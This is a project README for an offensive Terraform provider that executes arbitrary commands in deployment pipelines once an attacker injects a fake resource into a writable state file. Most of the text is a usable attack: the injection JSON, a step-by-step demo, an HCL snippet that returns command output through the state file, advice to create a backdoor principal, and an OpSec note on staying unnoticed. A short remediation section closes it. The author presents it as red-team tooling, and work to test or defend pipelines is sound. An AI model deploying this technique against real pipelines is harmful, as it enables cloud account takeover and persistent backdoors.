

# Terraform Provider for RCE via Statefile Poisoning


## ⌛ ;tldr

### What is this?

🔥 Equipped with only write access to a terraform state file, an attacker can use this terraform provider to potentially execute arbitrary commands in the deployment pipelines relying on the state file.

➡️ Here you can find the [entry in the Terraform Registry](https://registry.terraform.io/providers/offensive-actions/statefile-rce/latest).

### How does it work?

1. 🧑‍💻 The attacker adds a fake resource pointing to this provider in the state file and specifies a command to execute ("statefile poisoning").
2. 💡 The next time the pipeline relying on this state file is being triggered, terraform will realize there is a resource that is not specified in the infrastructure-as-code code and thus will want to destroy the resource.
3. ⬇️ To do this, terraform will load the malicious provider during the `terraform init` phase, since in regular use of terraform the provider would offer the correct logic to remove resources.
4. 💣 In the logic for destroying the resouce however, the malicious provider will first read the command to execute from the state file, then execute it (on both `terraform plan` and `terraform apply`!), and then purge the fake resource from the state file (only on `terraform apply`).

### Why did I write this?

I got the idea for this provider from [Daniel Grzelak's](https://github.com/dagrz/) post [Hacking Terraform State for Privilege Escalation](https://www.plerion.com/blog/hacking-terraform-state-for-privilege-escalation).
In it, he in detail describes the inner workings of what's happening here and also gives great remediation advice. Read it!

The POC he is demonstrating in the blog post had a hardcoded call for data exfiltration, I however wanted to have freedom to run arbitrary commands without touching the providers code. Including the command to run in the state file and reading it from there seemed the logical solution.

So I went ahead and weaponised this research to be able to use it in red team engagements and to show it off in regular pentests to drive the point home, why only the principal running the pipeline should have any access to the state file.

## How to use the provider

Open the targeted `terraform.tfstate` state file and inject the following object at any position into the `resources` array:

``` json
{
  "mode": "managed",
  "type": "rce",
  "name": "<arbitrary_name>",
  "provider": "provider[\"registry.terraform.io/offensive-actions/statefile-rce\"]",
  "instances": [
    {
      "schema_version": 0,
      "attributes": {
        "command": "<arbitrary_command>",
        "id": "rce"
      },
      "sensitive_attributes": [],
      "private": "bnVsbA=="
    }
  ]
}
```

Then change the values for the following two keys:

* `name`: Here you can assign an arbitrary name for the resource.
* `instances[*].attributes.command`: Here you can specify the command to run. Remember to encode all special characters with unicode escape sequences, e.g. `>` would be `\u003e`.

Now, the next time the pipeline runs and executes `terraform init` and `terraform plan` and / or `terraform apply`, the specified command should get executed.

> 🚨 **OpSec Warning**
>
> If a human runs `terraform plan` or `terraform apply` on their machine during development, they normally do not run `terraform init` every time before doing so, especially not if they do not expect any changes in the providers used. Thus, the following warning would get displayed, shining a bright light at the attack:
>
> 
>
> Since pipelines should run on ephemeral infrastructure, and thus have to run `terraform init` on every pipeline run, this should not be a problem in this case.

## Demo of an attack

> ⚠️ To make this as concise as possible, the example uses the state file right in the same folder with the configuration file `main.tf`. This normally is not the case, but does not make any difference for the attack.

As can be seen, the demo folder only contains two files:


The configuration file `main.tf` contains very simple infrastructure-as-code code for the creation of a S3 bucket in AWS:


The state file `terraform.tfstate` shows that this bucket has already been created, using the official AWS provider (output shortened):


Now, the attacker wants to run the command `id > id.out` in the context of a pipeline execution.

>The command does only make sense for this demo obviously. Normally (my experience tells me 99% of the time), the context of the pipeline run is the context of administrative access to a cloud account, so you might want to create a backdoor principal in this step.

Thus, the attacker injects the following object into the `resources` array:

``` json
{
  "mode": "managed",
  "type": "rce",
  "name": "command",
  "provider": "provider[\"registry.terraform.io/offensive-actions/statefile-rce\"]",
  "instances": [
    {
      "schema_version": 0,
      "attributes": {
        "command": "id \u003e id.out",
        "id": "rce"
      },
      "sensitive_attributes": [],
      "private": "bnVsbA=="
    }
  ]
}
```


Then, due to some external event (normally the push of code in a repository), the pipeline gets triggered and first initializes terraform, installing the malicious provider next to the legitimate AWS provider:


Now, with the providers in place, the pipeline plans the execution and realizes, that the injected resource is not mentioned in the `main.tf` and thus should be deleted:


💣 However, even if this triggers some sort of alert and human interaction, the malicious command already got executed (which is not how terraform normally behaves):



If this did not trigger any intervention (the deletion of resources is common in daily development), the pipeline next normally runs `terraform apply` to apply the changes and deletes the injected resource:


As can be seen, the malicious command got executed again (see the changed timestamp):


Since the malicious resource was "deleted", it does not appear anymore in the state file:


One could say that the attack neatly cleans up after itself 🪥.

## Remediation

As stated before, [Daniel Grzelak's](https://github.com/dagrz/) blog post [Hacking Terraform State for Privilege Escalation](https://www.plerion.com/blog/hacking-terraform-state-for-privilege-escalation) was the inspiration for my work and also has great remediation advice. Read it there, here you will find only the keywords:

1. **Secure the state file**: Only the prinicpal running the pipeline should have the permissions to interact (read, write) with the state file. Period. This will thwarth the whole attack. Extreme example: Not too long ago I have seen an AWS account in which the entire sales department did have write access to all S3 buckets to be able to upload sales material there. Sadly, this included the bucket containing the state files for a whole array of services.
2. **Use finely scoped access permissions for different pipelines**: Not every pipeline needs full administrative access to everything. Sounds like a no-brainer, but I rarely see this actually done.
3. **Enable state locking and safeguard the state lock in the same way as the state file**: Not a security feature per se, but if this is done properly, the attack will not work anyways.

## Bonus, because you still are reading this

As a side product, the provider can also be used like a regular provider, but with this feature: The output of the command will be written to the state file, so if you have write access to the infrastructure-as-code code and read access to the state file, but you cannot read the output of your commands in the pipeline (e.g. no access to GitHub Action logs), then you can use the following.

Add this code to e.g. the `main.tf` file:

``` hcl
terraform {
  required_providers {
    rce = {
      source = "offensive-actions/statefile-rce"
    }
  }
}

provider "rce" {}

resource "rce" "command" {
  command = "<arbitrary_command>"
}
```

Then, after a pipeline run, and when running `id`, this is the resulting state file - note the result of the `id` command in the `resources.instances.attributes.output`:


